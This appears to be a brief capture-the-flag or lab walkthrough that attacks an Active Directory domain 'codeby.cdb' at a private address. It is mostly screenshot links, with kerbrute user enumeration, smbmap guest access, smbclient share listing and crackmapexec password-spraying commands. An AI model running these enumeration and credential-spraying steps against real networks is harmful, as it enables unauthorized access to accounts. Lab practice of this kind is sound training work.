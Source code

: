 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f4b29e9d-ec91-488d-9c1c-8944f0193732)
```
./kerbrute_linux_amd64 userenum -d codeby.cdb --dc 192.168.2.4 user-hack.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c8378bfd-9f39-49fd-8fd4-ee903864c522)

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology
```
smbmap -H 192.168.2.4 -u "guest" -p "" -d codeby.cdb 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d0a99e64-34d8-4f12-8a33-f998f6734971)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f576be09-5901-42ff-927f-3f1e3d2e4d06)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/735656c1-2a35-4692-a325-9090da14b569)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/84951fcb-17b0-4561-84c9-7963189cb7f2)
```
smbclient -L \\\\192.168.2.4\\ -U amaslova
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/eed7217e-c251-47c3-9535-633f5ac2c235)
```
crackmapexec smb 192.168.2.4 -d codeby.cdb -u user.txt -p 'PASS'
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3e83c6a6-1757-4178-9fc4-bd52cffe3fd5)

